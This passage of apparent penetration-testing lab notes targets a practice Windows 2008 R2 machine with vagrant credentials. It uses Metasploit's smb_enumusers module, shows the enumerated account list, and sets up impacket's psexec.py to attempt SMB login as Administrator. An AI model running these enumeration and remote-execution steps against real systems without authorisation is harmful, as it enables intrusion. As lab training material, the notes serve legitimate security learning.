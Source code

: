 ![enum4linux](4-exploitationassets/image-20230424120729493.png)

- Enumerate users with MSF

```bash
msfconsole
```

```bash
use auxiliary/scanner/smb/smb_enumusers
set RHOSTS 10.2.26.45
set SMBUser vagrant
set SMBPass vagrant
run
```

```bash
[+] 10.2.26.45:445 - VAGRANT-2008R2 [ Administrator, anakin_skywalker, artoo_detoo, ben_kenobi, boba_fett, chewbacca, c_three_pio, darth_vader, greedo, Guest, han_solo, jabba_hutt, jarjar_binks, kylo_ren, lando_calrissian, leia_organa, luke_skywalker, sshd, sshd_server, vagrant ] ( LockoutTries=0 PasswordMin=0 )
```

- In a new terminal, use `psexec.py` to try SMB authentication

```bash
locate psexec.py
cp /usr/share/doc/python3-impacket/examples/psexec.py .
chmod +x psexec.py
```

```bash
python3 psexec.py Administrator@10.2.26.45
```
